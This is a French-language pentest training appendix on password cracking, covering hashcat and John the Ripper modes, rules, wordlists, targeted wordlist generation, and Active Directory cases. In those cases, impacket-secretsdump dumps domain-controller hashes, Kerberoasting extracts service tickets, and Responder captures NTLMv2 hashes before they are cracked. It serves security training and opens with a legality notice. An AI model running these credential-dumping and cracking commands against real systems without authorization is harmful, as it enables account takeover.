

---
tags:
  - formation
  - security
  - windows
  - password-cracking
  - hashcat
  - john
  - credentials
---

# Password Cracking Mastery

Cette annexe couvre les techniques avancées de cracking de mots de passe, optimisation des performances et stratégies efficaces.

!!! info "Légalité"
    Le cracking de mots de passe n'est légal que sur :

    - Vos propres systèmes
    - Des systèmes avec autorisation explicite écrite
    - Des hash CTF/challenges publics

---

## Vue d'Ensemble - Password Attack Flow

```mermaid
flowchart LR
    subgraph acquire["Acquisition"]
        A1[Memory Dump]
        A2[SAM/SYSTEM]
        A3[NTDS.dit]
        A4[Network Capture]
    end

    subgraph extract["Extraction"]
        E1[Mimikatz]
        E2[secretsdump]
        E3[Responder]
    end

    subgraph crack["Cracking"]
        C1[Dictionary]
        C2[Rules]
        C3[Masks]
        C4[Hybrid]
    end

    subgraph use["Utilisation"]
        U1[Pass-the-Hash]
        U2[Plaintext Login]
        U3[Impersonation]
    end

    acquire --> extract --> crack --> use

    style C1 fill:#e74c3c,color:#fff
    style C2 fill:#e74c3c,color:#fff
    style C3 fill:#e74c3c,color:#fff
```



---

## 1. Types de Hash Windows

### 1.1 Référence des Formats

| Type | Exemple | Hashcat Mode | Usage |
|------|---------|--------------|-------|
| **LM** | `aad3b435b51404ee:...` | 3000 | Legacy (< Vista) |
| **NTLM** | `32ed87bdb5fdc5e9...` | 1000 | Comptes locaux/AD |
| **NTLMv1** | `user::DOMAIN:...` | 5500 | Réseau (obsolète) |
| **NTLMv2** | `user::DOMAIN:...` | 5600 | Réseau (actuel) |
| **NetNTLMv2** | `user::DOMAIN:...` | 5600 | Responder capture |
| **Kerberos TGS (RC4)** | `$krb5tgs$23$*...` | 13100 | Kerberoasting |
| **Kerberos TGS (AES128)** | `$krb5tgs$17$*...` | 19600 | Kerberoasting |
| **Kerberos TGS (AES256)** | `$krb5tgs$18$*...` | 19700 | Kerberoasting |
| **Kerberos AS-REP** | `$krb5asrep$23$...` | 18200 | AS-REP Roasting |
| **DCC2** | `$DCC2$...` | 2100 | Cached credentials |
| **MSCash2** | `$DCC2$...` | 2100 | Same as DCC2 |

### 1.2 Identifier le Type de Hash

```bash
# Avec hashid
hashid -m '32ed87bdb5fdc5e9cdb30ab...'
# [+] NTLM [Hashcat Mode: 1000]

# Avec hash-identifier
hash-identifier
# Input: [votre hash]

# Avec hashcat
hashcat --identify hash.txt
```

---

## 2. Hashcat - Guide Complet

### 2.1 Syntaxe de Base

```bash
hashcat [options] hashfile [dictionary|mask]

# Options essentielles
-m MODE          # Type de hash
-a ATTACK_MODE   # Mode d'attaque
-w WORKLOAD      # 1=Low, 2=Default, 3=High, 4=Nightmare
-O               # Optimized kernels (limite à 32 chars)
--force          # Ignorer les warnings
-o OUTPUT        # Fichier de sortie
--show           # Afficher les hash crackés
```

### 2.2 Modes d'Attaque

| Mode | Nom | Description |
|------|-----|-------------|
| 0 | Straight | Dictionary + Rules |
| 1 | Combination | Dict1 + Dict2 |
| 3 | Brute-force | Mask attack |
| 6 | Hybrid Dict + Mask | rockyou.txt + ?d?d |
| 7 | Hybrid Mask + Dict | ?d?d + rockyou.txt |
| 9 | Association | Hash + wordlist position |

### 2.3 Attack Mode 0 - Dictionary

```bash
# Basic dictionary attack
hashcat -m 1000 ntlm.txt rockyou.txt

# Avec règles
hashcat -m 1000 ntlm.txt rockyou.txt -r rules/best64.rule

# Multiples wordlists
hashcat -m 1000 ntlm.txt dict1.txt dict2.txt dict3.txt

# Combiner plusieurs règles
hashcat -m 1000 ntlm.txt rockyou.txt -r rules/d3ad0ne.rule -r rules/T0XlC.rule
```

### 2.4 Attack Mode 3 - Mask/Brute-force

**Charsets disponibles :**

| Charset | Description | Caractères |
|---------|-------------|------------|
| `?l` | Lowercase | a-z |
| `?u` | Uppercase | A-Z |
| `?d` | Digits | 0-9 |
| `?s` | Special | !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~ |
| `?a` | All printable | ?l?u?d?s |
| `?b` | Binary | 0x00-0xff |

```bash
# 8 caractères lowercase
hashcat -m 1000 ntlm.txt -a 3 ?l?l?l?l?l?l?l?l

# Pattern: Mot + 4 chiffres (Summer2024)
hashcat -m 1000 ntlm.txt -a 3 ?u?l?l?l?l?l?d?d?d?d

# Custom charset
hashcat -m 1000 ntlm.txt -a 3 -1 ?l?u -2 ?d?s ?1?1?1?1?1?2?2?2

# Increment mode (1 à 8 caractères)
hashcat -m 1000 ntlm.txt -a 3 --increment --increment-min 1 --increment-max 8 ?a?a?a?a?a?a?a?a
```

### 2.5 Attack Mode 6 & 7 - Hybrid

```bash
# Mode 6: Dictionary + Mask (mot + chiffres)
hashcat -m 1000 ntlm.txt -a 6 rockyou.txt ?d?d?d?d
# Essaie: password1234, admin0001, etc.

# Mode 7: Mask + Dictionary (préfixe + mot)
hashcat -m 1000 ntlm.txt -a 7 ?d?d?d rockyou.txt
# Essaie: 123password, 456admin, etc.

# Combinaison avancée
hashcat -m 1000 ntlm.txt -a 6 company_words.txt ?d?d?d?d -r rules/append_special.rule
```

### 2.6 Attack Mode 1 - Combinator

```bash
# Combiner deux dictionnaires
hashcat -m 1000 ntlm.txt -a 1 dict1.txt dict2.txt
# dict1: [Summer, Winter, Spring]
# dict2: [2024, 2025, !!, @123]
# Résultat: Summer2024, Winter!!, etc.
```

---

## 3. Rules - Transformation des Mots

### 3.1 Règles Courantes

| Règle | Nom | Effet | Exemple |
|-------|-----|-------|---------|
| `:` | Nothing | Mot tel quel | password |
| `l` | Lowercase | Tout en minuscule | PASSWORD → password |
| `u` | Uppercase | Tout en majuscule | password → PASSWORD |
| `c` | Capitalize | Première lettre majuscule | password → Password |
| `C` | Lowercase first | Première lettre minuscule | PASSWORD → pASSWORD |
| `t` | Toggle case | Inverser la casse | password → PASSWORD |
| `r` | Reverse | Inverser le mot | password → drowssap |
| `d` | Duplicate | Doubler le mot | password → passwordpassword |
| `$X` | Append | Ajouter X à la fin | password$1 → password1 |
| `^X` | Prepend | Ajouter X au début | ^1password → 1password |
| `sXY` | Replace | Remplacer X par Y | sa@password → p@ssword |

### 3.2 Fichiers de Règles Populaires

```bash
# Règles incluses dans Hashcat
ls /usr/share/hashcat/rules/

# Recommandées par performance
best64.rule           # 64 règles les plus efficaces
d3ad0ne.rule          # ~35k règles, très complet
dive.rule             # ~100k règles
OneRuleToRuleThemAll  # Compilation des meilleures

# Télécharger OneRuleToRuleThemAll
wget https://github.com/NotSoSecure/password_cracking_rules/raw/master/OneRuleToRuleThemAll.rule
```

### 3.3 Créer ses Propres Règles

```bash
# Fichier: custom.rule

# Mot de base
:

# Capitaliser + chiffres courants
c $1
c $!
c $1 $2 $3
c $2 $0 $2 $4
c $2 $0 $2 $5

# Leet speak
sa@ so0 si1 se3
c sa@ so0 si1 se3

# Mots de passe d'entreprise typiques
c $@ $1 $2 $3
c $! $! $!
^C ^o ^r ^p
```

### 3.4 Générer des Règles avec Statsprocessor

```bash
# Analyser les patterns de mots de passe crackés
hashcat --stdout -r best64.rule rockyou.txt | statsprocessor --len
```

---

## 4. John the Ripper

### 4.1 Syntaxe de Base

```bash
# Format auto-détecté
john hashfile.txt

# Spécifier le format
john --format=NT hashfile.txt

# Avec wordlist
john --wordlist=rockyou.txt hashfile.txt

# Avec rules
john --wordlist=rockyou.txt --rules hashfile.txt

# Afficher les résultats
john --show hashfile.txt
```

### 4.2 Formats Courants

```bash
# NTLM
john --format=NT ntlm.txt --wordlist=rockyou.txt

# NTLMv2 (Responder)
john --format=netntlmv2 responder.txt --wordlist=rockyou.txt

# Kerberos TGS
john --format=krb5tgs kerberoast.txt --wordlist=rockyou.txt

# Kerberos AS-REP
john --format=krb5asrep asrep.txt --wordlist=rockyou.txt

# DCC2/MSCache2
john --format=mscash2 dcc2.txt --wordlist=rockyou.txt
```

### 4.3 John Modes

```bash
# Single crack mode (utilise les usernames)
john --single hashfile.txt

# Incremental (brute-force)
john --incremental hashfile.txt

# Incremental avec charset
john --incremental=Digits hashfile.txt
john --incremental=Alpha hashfile.txt
john --incremental=Alnum hashfile.txt
```

### 4.4 Configuration des Règles John

```ini
# ~/.john/john.conf

[List.Rules:MyRules]
# Règles personnalisées
:
l
c
c $[0-9]
c $[0-9]$[0-9]$[0-9]$[0-9]
c $[!@#$%]
```

---

## 5. Wordlists & Ressources

### 5.1 Wordlists Essentielles

| Wordlist | Taille | Usage |
|----------|--------|-------|
| **rockyou.txt** | 14M | Base universelle |
| **SecLists** | Varié | Collection complète |
| **CrackStation** | 1.5B | Huge wordlist |
| **Weakpass** | Multi | Wordlists thématiques |
| **Kaonashi** | 14.3GB | Passwords + variations |

```bash
# Télécharger rockyou
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# SecLists
git clone https://github.com/danielmiessler/SecLists.git

# CrackStation
# https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm
```

### 5.2 Créer des Wordlists Ciblées

```bash
# CeWL - Extraction de mots depuis un site
cewl https://www.company.com -d 3 -m 5 -w company_words.txt

# Options utiles
cewl https://target.com -d 3 -m 5 --with-numbers -w words.txt

# Combiner avec des patterns
for word in $(cat company_words.txt); do
    echo "${word}2024"
    echo "${word}2025"
    echo "${word}!"
    echo "${word}123"
done > company_passwords.txt
```

### 5.3 Génération avec CUPP

```bash
# Interactive mode - profil basé sur la cible
cupp -i
# Demande: nom, surnom, date de naissance, etc.
# Génère une wordlist personnalisée

# Alicia mode - combinaisons courantes
cupp -a

# Combiner avec les wordlists
cupp -w mywordlist.txt
```

### 5.4 Mentalist

```bash
# GUI pour créer des wordlists avancées
# https://github.com/sc0tfree/mentalist

# Fonctionnalités:
# - Chainable rules
# - Base words + mutations
# - Export vers hashcat/john
```

---

## 6. Stratégies de Cracking

### 6.1 Approche Progressive



### 6.2 Phase 1: Quick Wins

```bash
# Top passwords uniquement
echo "password" > quick.txt
echo "Password1" >> quick.txt
echo "Company2024" >> quick.txt
echo "Welcome1" >> quick.txt
echo "Summer2024" >> quick.txt
echo "P@ssw0rd" >> quick.txt

hashcat -m 1000 ntlm.txt quick.txt
hashcat -m 1000 ntlm.txt quick.txt -r best64.rule
```

### 6.3 Phase 2: Dictionary Standard

```bash
# rockyou avec règles progressives
hashcat -m 1000 ntlm.txt rockyou.txt
hashcat -m 1000 ntlm.txt rockyou.txt -r best64.rule
hashcat -m 1000 ntlm.txt rockyou.txt -r d3ad0ne.rule
```

### 6.4 Phase 3: Targeted

```bash
# Wordlist d'entreprise (CeWL + variations)
hashcat -m 1000 ntlm.txt company_words.txt -r rules/corporate.rule

# Patterns d'entreprise typiques
# Company2024!, Welcome1, Summer2024
hashcat -m 1000 ntlm.txt -a 6 seasons.txt ?d?d?d?d
hashcat -m 1000 ntlm.txt -a 6 company_words.txt '?d?d?d?d?s'
```

### 6.5 Phase 4: Mask Attack

```bash
# Patterns courants
# 8 caractères minimum Windows
hashcat -m 1000 ntlm.txt -a 3 '?u?l?l?l?l?l?d?d'     # Ullllldd
hashcat -m 1000 ntlm.txt -a 3 '?u?l?l?l?l?l?l?d?d'   # Ulllllldd
hashcat -m 1000 ntlm.txt -a 3 '?u?l?l?l?l?d?d?d?d'   # Ullllddd
hashcat -m 1000 ntlm.txt -a 3 '?u?l?l?l?l?l?d?d?s'   # Ullllllds
```

---

## 7. Optimisation des Performances

### 7.1 GPU vs CPU

```bash
# Lister les devices disponibles
hashcat -I

# Forcer GPU spécifique
hashcat -d 1 -m 1000 ntlm.txt rockyou.txt

# Multiple GPUs
hashcat -d 1,2,3,4 -m 1000 ntlm.txt rockyou.txt

# Workload profiles
hashcat -w 3 -m 1000 ntlm.txt rockyou.txt  # High performance
hashcat -w 4 -m 1000 ntlm.txt rockyou.txt  # Nightmare (instable)
```

### 7.2 Benchmarks

```bash
# Benchmark complet
hashcat -b

# Benchmark pour un mode spécifique
hashcat -b -m 1000

# Résultats typiques (RTX 4090)
# NTLM: ~160 GH/s
# NTLMv2: ~7 GH/s
# Kerberos TGS (13100): ~1.5 GH/s
# DCC2 (2100): ~2 MH/s
```

### 7.3 Conseils d'Optimisation

```bash
# Utiliser -O pour kernels optimisés (limite 32 chars)
hashcat -O -m 1000 ntlm.txt rockyou.txt

# Ajuster workload par rapport à la stabilité
hashcat -w 3 --force -m 1000 ntlm.txt rockyou.txt

# Sessions pour reprendre
hashcat --session=mysession -m 1000 ntlm.txt rockyou.txt
hashcat --session=mysession --restore

# Pré-calculer les candidats
hashcat --stdout rockyou.txt -r best64.rule | hashcat -m 1000 ntlm.txt
```

---

## 8. Cas Pratiques AD

### 8.1 Kerberoasting Complete

```bash
# 1. Extraire les hash (GetUserSPNs ou Rubeus)
impacket-GetUserSPNs -request -dc-ip DC01 CORP/user:password -outputfile kerberoast.txt

# 2. Préparer pour hashcat
cat kerberoast.txt | sed 's/\$krb5tgs\$23\$\*/\$krb5tgs\$23\$/' > hashes.txt

# 3. Cracking progressif
hashcat -m 13100 hashes.txt rockyou.txt
hashcat -m 13100 hashes.txt rockyou.txt -r best64.rule
hashcat -m 13100 hashes.txt -a 6 company.txt ?d?d?d?d
```

### 8.2 NTLM from Secretsdump

```bash
# 1. Extraire les NTLM
impacket-secretsdump -just-dc-ntlm CORP/admin@DC01 -outputfile ntds

# 2. Formater pour hashcat (juste le hash)
cat ntds.ntds | cut -d: -f4 | sort -u > ntlm_hashes.txt

# 3. Cracker
hashcat -m 1000 ntlm_hashes.txt rockyou.txt -r OneRuleToRuleThemAll.rule
```

### 8.3 NTLMv2 from Responder

```bash
# 1. Lancer Responder
responder -I eth0 -dwv

# 2. Les hash sont dans /usr/share/responder/logs/
cat /usr/share/responder/logs/*NTLMv2*.txt > ntlmv2.txt

# 3. Cracker
hashcat -m 5600 ntlmv2.txt rockyou.txt
hashcat -m 5600 ntlmv2.txt -a 3 '?u?l?l?l?l?l?d?d'
```

---

## 9. Cracking Avancé

### 9.1 Prince Attack

```bash
# PRINCE: Probability Infinite Chained Elements
# Génère des combinaisons de mots

# Installation
git clone https://github.com/hashcat/princeprocessor
cd princeprocessor/src && make

# Utilisation
./pp64.bin < wordlist.txt | hashcat -m 1000 ntlm.txt

# Avec limite de longueur
./pp64.bin --elem-cnt-min=2 --elem-cnt-max=4 < wordlist.txt | hashcat -m 1000 ntlm.txt
```

### 9.2 Kwprocessor (Keyboard Walk)

```bash
# Génère des patterns de clavier (qwerty, azerty)
# Ex: qwerty, asdfgh, 1qaz2wsx

./kwp basechars/full.base keymaps/en-us.keymap routes/2-to-16-max-3-direction-changes.route

# Pipe vers hashcat
./kwp [...] | hashcat -m 1000 ntlm.txt
```

### 9.3 Fingerprint Attack

```bash
# Si vous avez déjà cracké des mots de passe de l'organisation
# Analysez les patterns avec PACK

# Installation
git clone https://github.com/iphelix/pack
cd pack && python statsgen.py cracked.txt

# Génère des statistiques:
# - Longueur moyenne
# - Patterns (ullllldd)
# - Caractères spéciaux utilisés

# Créer des masks basés sur l'analyse
python maskgen.py cracked.txt --minlength=8 --maxlength=12
```

---

## 10. Cheatsheet Rapide

### Hashcat One-Liners

```bash
# NTLM quick
hashcat -m 1000 ntlm.txt rockyou.txt -r best64.rule -O

# Kerberoasting
hashcat -m 13100 krb.txt rockyou.txt -r best64.rule

# NTLMv2
hashcat -m 5600 ntlmv2.txt rockyou.txt

# AS-REP Roasting
hashcat -m 18200 asrep.txt rockyou.txt -r d3ad0ne.rule

# DCC2 (lent!)
hashcat -m 2100 dcc2.txt rockyou.txt

# Mask: Company2024!
hashcat -m 1000 ntlm.txt -a 3 '?u?l?l?l?l?l?l?d?d?d?d?s'

# Hybrid: rockyou + 4 digits
hashcat -m 1000 ntlm.txt -a 6 rockyou.txt '?d?d?d?d'

# Show cracked
hashcat -m 1000 ntlm.txt --show
```

### John One-Liners

```bash
# NTLM
john --format=NT ntlm.txt --wordlist=rockyou.txt

# NTLMv2
john --format=netntlmv2 ntlmv2.txt --wordlist=rockyou.txt

# Kerberos TGS
john --format=krb5tgs krb.txt --wordlist=rockyou.txt

# Show
john --show ntlm.txt
```

---

## Références

- [Hashcat Wiki](https://hashcat.net/wiki/)
- [Hashcat Example Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [John the Ripper](https://github.com/openwall/john)
- [OneRuleToRuleThemAll](https://github.com/NotSoSecure/password_cracking_rules)
- [CrackStation](https://crackstation.net/)

---

[Retour au Programme](index.md){ .md-button }
[Pivoting & Tunneling →](pivoting-tunneling.md){ .md-button .md-button--primary }
